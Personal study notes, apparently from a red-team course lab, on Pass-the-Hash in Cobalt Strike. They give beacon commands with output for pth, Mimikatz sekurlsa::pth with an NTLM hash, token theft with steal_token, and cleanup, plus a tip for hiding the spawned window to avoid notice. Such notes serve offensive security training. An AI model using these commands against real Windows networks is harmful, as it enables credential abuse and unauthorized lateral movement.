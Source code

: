 ```yaml
---
creation date: September 23rd 2022
last modified date: September 23rd 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Pass the Hash]]  
___

## Description:  

### In CobaltStrike


Pass the Hash is a technique that allows you to authenticate to a Windows service using the NTLM hash of a user's password, rather than the plaintext.

```
beacon> pth DEV\jking 4ffd3eabdce2e158d923ddec72de979e

user    : jking
domain    : DEV
program    : C:\Windows\system32\cmd.exe /c echo 1cbe909fe8a > \\.\pipe\16ca6d
impers.    : no
NTLM    : 4ffd3eabdce2e158d923ddec72de979e
  |  PID  5540
  |  TID  5976
[...snip...]

beacon> ls \\srv-2\c$

```

To avoid the `\\.\pipe\` indicator, we can execute Mimikatz manually and specify our own process.

```
beacon> mimikatz sekurlsa::pth /user:jking /domain:dev.cyberbotic.io /ntlm:4ffd3eabdce2e158d923ddec72de979e

user    : jking
domain    : dev.cyberbotic.io
program    : cmd.exe
impers.    : no
NTLM    : 4ffd3eabdce2e158d923ddec72de979e
  |  PID  6284
  |  TID  6288


```

If no `/run` parameter is specified, then `cmd.exe` is started.  However, this can actually cause the process window to appear on the users desktop.

Use a process that doesn't have a console or use `"powershell -w hidden"` to create a hidden window.

Then once the spawned process has started, impersonate it using `steal_token`.

```
beacon> steal_token 6284
[+] Impersonated NT AUTHORITY\SYSTEM
```

When finished, use `rev2self` and `kill` the spawned process.
```
beacon> rev2self
[*] Tasked beacon to revert token
[+] host called home, sent: 8 bytes

beacon> kill 6284
[*] Tasked beacon to kill 6284
[+] host called home, sent: 12 bytes

```



___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 23rd 2022 (05:57 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>

